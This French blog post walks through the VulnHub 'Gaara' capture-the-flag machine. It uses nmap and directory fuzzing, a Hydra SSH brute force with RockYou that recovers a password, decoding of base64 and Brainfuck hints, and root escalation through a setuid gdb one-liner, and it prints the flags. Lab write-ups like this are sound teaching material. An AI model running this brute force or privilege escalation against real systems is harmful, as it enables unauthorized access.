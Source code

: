 ```yaml
---
title: "Solution du CTF Gaara de VulnHub"
tags: [CTF, VulnHub]
---
```


Disons-le, ce CTF [Gaara](https://vulnhub.com/entry/gaara-1,629/) était loin d'être le plus agréable ou le plus intéressant.

Il commence sur une série de soit disant indices qui génèrent de la confusion. On final on brute force un compte supposé avec la wordlist RockYou et on obtient un shell.

La suite a un goût de déjà vu. C'est parti !

```
Nmap scan report for 192.168.56.54
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
```

J'ai brute-forcé les URLs du serveur web d'abord avec les wordlists `raft` de `fuzzdb` puis finalement avec la `directory-list-2.3-big.txt` de `DirBuster`. Cela m'a retourné la page `Cryoserver` qui contient trois références :

```
/Temari
/Kazekage
/iamGaara
```

Ces pages correspondent à un copier coller d'articles Wikipedia.

Le `imGaara` m'a laissé supposer qu'il y avait un compte `gaara` sur le système et n'ayant pas plus d'infos j'ai décidé de brute-forcer ce possible compte SSH.

J'ai d'abord eu recours à [CeWL is a Custom Word List Generator](https://github.com/digininja/cewl) pour générer une wordlist à partir des trois pages mais aucun mot de passe valide n'en est ressorti.

Finalement j'ai obtenu quelque chose avec RockYou :

```bash
$ ./hydra -l gaara -P rockyou.txt ssh://192.168.56.54
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-14 12:46:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.54:22/
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 14344249 to do in 1757:53h, 12 active
[22][ssh] host: 192.168.56.54   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-14 12:48:5
```

Ce mot de passe `iloveyou2` permet l'accès au SSH. Une fois connecté on trouve deux fichiers :

```
-rw-r--r-- 1 gaara gaara   33 Dec 13  2020 flag.txt
-rw-r--r-- 1 gaara gaara   57 Dec 13  2020 Kazekage.txt
```

Le premier est le flag `5451d3eb27acb16c652277d30945ab1e` et le second contient un message :

> You can find Kazekage here....  
> 
> L3Vzci9sb2NhbC9nYW1lcw==

Le base64 nous indique d'aller jeter un oeil dans `/usr/local/games` où l'on trouve un fichier texte qui a l'air encodé via [Brainfuck](https://fr.wikipedia.org/wiki/Brainfuck) :

```
Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

On peut utiliser un décodeur en ligne qui nous donne le texte clair suivant :

> Did you really think you could find something that easily? Try Harder!

Devant cette impasse et en raison de l'absence d'entrées `sudo` je recherche les binaires setuid :

```bash
gaara@Gaara:~$ find / -user root -perm -u+s 2> /dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

Ce qui m'a plus surpris c'est la présence de Gimp :) On trouve bien une entrée correspondante sur [GTFObins](https://gtfobins.github.io/gtfobins/gimp/) mais toutes les techniques d'exploitation nécessite la présence d'un plugin pour l'exécution de code Python.

Sur le système on ne trouve que `script-fu` et ce dernier a un ensemble de commandes trop limitées. Au mieux il doit être possible d'exfiltrer des données en essayant de charger / sauver une image mais on risque de se cogner la tête sur la validation des formats.

L'entrée GTFObins pour GDB fonctionne bien, gdb supportant le Python depuis quelques années déjà : 

```bash
gaara@Gaara:~$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls
root.txt
# cat root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗ 
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin
```

*Publié le 14 novembre 2022*
